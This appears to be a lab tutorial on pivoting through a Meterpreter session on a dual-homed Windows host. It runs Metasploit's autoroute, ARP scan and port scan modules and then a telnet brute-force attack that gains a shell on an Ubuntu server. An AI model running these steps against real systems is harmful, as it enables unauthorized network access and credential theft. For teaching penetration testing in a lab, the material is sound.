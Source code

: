 # Telnet Pivoting through Meterpreter

**Pivoting** is a technique to get inside an unreachable network with help of pivot \(center point\). In simple words, it is an attack through which an attacker can exploit that system which belongs to the different network. For this attack, the attacker needs to exploit the main server that helps the attacker to add himself inside its local network and then the attacker will able to target the client system for the attack.

**Lab Setup requirement:**

**Attacker machine**: Kali Linux

Pivot Machine \(client\): window operating system with **two** network interface

Target Machine: Ubuntu server \(Allow telnet service\)

![](https://i0.wp.com/4.bp.blogspot.com/-RcHdOnEepeI/WdesfMRaUoI/AAAAAAAAR0U/-ZaPGuJq27Ie_eKS32U8C0Y-gFy5rA-5wCLcBGAs/s1600/0.1.png?w=687&ssl=1)

**Exploit pivot machine**

Use exploit MS17-010 or multi handler to hack the pivot machine.sessions

| 1 | sessions |
| :--- | :--- |


From the given image, you can confirm that I owned a pivot machine \(192.168.1.107\) meterpreter session1.

![](https://i0.wp.com/3.bp.blogspot.com/-A5EUdF6XjK4/WdesfBYDvUI/AAAAAAAAR0c/qenx083v0KY5P_79QrwUF6jERN-fa75kQCLcBGAs/s1600/0.png?w=687&ssl=1)

Check the network interface through the following command:meterpreter&gt; ifconfig

| 1 | meterpreter&gt; ifconfig |
| :--- | :--- |


From the given image you can observe two networks interface in pivot’s system **1st** for IP **192.168.1.107** through which the attacker is connected and **2nd** for IP **10.0.0.20** through which telnet server \(targets\) are connected.

![](https://i2.wp.com/2.bp.blogspot.com/-1IVP__t0NkA/WdesfZPSRNI/AAAAAAAAR0Y/rQ6UeTd2cyYvBaCqZARiInN0iY15C6KJQCLcBGAs/s1600/1.png?w=687&ssl=1)

#### **Route Add**

Since the attacker belongs to **the 192.168.1.1** interface and target belongs to **10.0.0.0** interface, therefore, it is not possible to directly make an attack on the target network until unless the attacker acquires the same network connection. In order to achieve a 10.0.0.0 network attacker need to run the **post exploitation** “autoroute”.use post/multi/manage/autoroute   
msf post\(autoroute\) &gt; set session 1  
msf post\(autoroute\) &gt; exploit

| 123 | use post/multi/manage/autoroutemsf post\(autoroute\) &gt; set session 1msf post\(autoroute\) &gt; exploit |
| :--- | :--- |


![](https://i2.wp.com/2.bp.blogspot.com/-dRA7jEPDQw4/WdesgE-4upI/AAAAAAAAR0g/HWnxzHVY2egbFg8NRUJZrCr59RlFtY9RACLcBGAs/s1600/2.png?w=687&ssl=1)

This Module will perform an ARP scan for a given IP range through a Meterpreter Session.use post/windows/gather/arp\_scanner  
msf post\(arp\_scanner\) &gt; set rhosts 10.0.0.1-30  
msf post\(arp\_scanner\) &gt; set session 1  
msf post\(arp\_scanner\) &gt; set thread 20  
msf post\(arp\_scanner\) &gt; exploit

| 12345 | use post/windows/gather/arp\_scannermsf post\(arp\_scanner\) &gt; set rhosts 10.0.0.1-30msf post\(arp\_scanner\) &gt; set session 1msf post\(arp\_scanner\) &gt; set thread 20msf post\(arp\_scanner\) &gt; exploit |
| :--- | :--- |


 ****Here we found a new IP **10.0.0.10** as shown in the given image. Let’s perform TCP port scan for activated services on this machine.

![](https://i2.wp.com/2.bp.blogspot.com/-OiKcGREAsPU/WdesgXTFncI/AAAAAAAAR0k/EhoDoR8fUSc0rKLachW4Lv9uHhPSGGL9ACLcBGAs/s1600/3.png?w=687&ssl=1)

This module Enumerates open TCP services by performing a full TCP connect on each port. This does not need administrative privileges on the source machine, which may be useful if pivoting.use auxiliary/scanner/portscan/tcp  
msf auxiliary\(tcp\) &gt; set ports 23  
msf auxiliary\(tcp\) &gt; set rhosts 10.0.0.10  
msf auxiliary\(tcp\) &gt; set thread 10  
msf auxiliary\(tcp\) &gt;exploit

| 12345 | use auxiliary/scanner/portscan/tcpmsf auxiliary\(tcp\) &gt; set ports 23msf auxiliary\(tcp\) &gt; set rhosts 10.0.0.10msf auxiliary\(tcp\) &gt; set thread 10msf auxiliary\(tcp\) &gt;exploit |
| :--- | :--- |


From given you can observe **port 23** is **open** and we know that port 23 is used for telnet service.

![](https://i2.wp.com/3.bp.blogspot.com/-hnTmNoLpvjM/WdesgZYTIBI/AAAAAAAAR0o/Zge7r40gJDgh7RaXJhloIZ0jm-gvFGAOgCLcBGAs/s1600/4.png?w=687&ssl=1)

#### **Use Telnet login Brute Force Attack**

An attacker always tries to make a brute force attack for stealing credential for unauthorized access.

This module will test a telnet login on a range of machines and report successful logins. If you have loaded a database plugin and connected to a database this module will record successful logins and hosts so you can track your access.

Now type the following command to Brute force TELNET login:use auxiliary/scanner/telnet/telnet\_login  
msf auxiliary\(telnet\_login\) &gt; set rhosts 10.0.0.10  
msf auxiliary\(telnet\_login\) &gt; set user\_file /root/Desktop/user  
msf auxiliary\(telnet\_login\) &gt; set pass\_file /root/Desktop/pass  
msf auxiliary\(telnet\_login\) &gt; exploit

| 12345 | use auxiliary/scanner/telnet/telnet\_loginmsf auxiliary\(telnet\_login\) &gt; set rhosts 10.0.0.10msf auxiliary\(telnet\_login\) &gt; set user\_file /root/Desktop/usermsf auxiliary\(telnet\_login\) &gt; set pass\_file /root/Desktop/passmsf auxiliary\(telnet\_login\) &gt; exploit |
| :--- | :--- |


From given image you can observe that TELNET server is not secure against brute force attack because it is showing a matching combination of **username: aarti** and **password: 123** for login simultaneously it has opened victims command shell as **session 2**

![](https://i0.wp.com/1.bp.blogspot.com/-ZyNhQN94264/WdeshdevjqI/AAAAAAAAR0s/F2z26xiQluYnYHBuRIYMJmXsNrW9OTUMwCLcBGAs/s1600/5.1.png?w=687&ssl=1)

Let’s count the number of victim sessions we have hold using the following command:sessions

| 1 | sessions |
| :--- | :--- |


From the given image you can observe there are two sessions **1st** as the meterpreter session of windows system and **2nd** as command shell of the telnet server.

![](https://i1.wp.com/2.bp.blogspot.com/-qQbctZxMfAM/Wdeshf3d8AI/AAAAAAAAR0w/_zMU2zLy4yoHTcZDbb4DJcrq4W65IfjkQCLcBGAs/s1600/5.2.png?w=687&ssl=1)sessions 2

| 1 | sessions 2 |
| :--- | :--- |


Now attacker is command shell of the server, let’s verify through network configuration.ifconfig

| 1 | ifconfig |
| :--- | :--- |


From given, you can observe the network IP is **10.0.0.10**

![](https://i0.wp.com/3.bp.blogspot.com/-sRXTs4XCNcE/WdeshXFVuoI/AAAAAAAAR00/5b5poTQfT-471HBys3qpxc9d5XFtqNmUgCLcBGAs/s1600/5.3.png?w=687&ssl=1)

\*\*\*\*


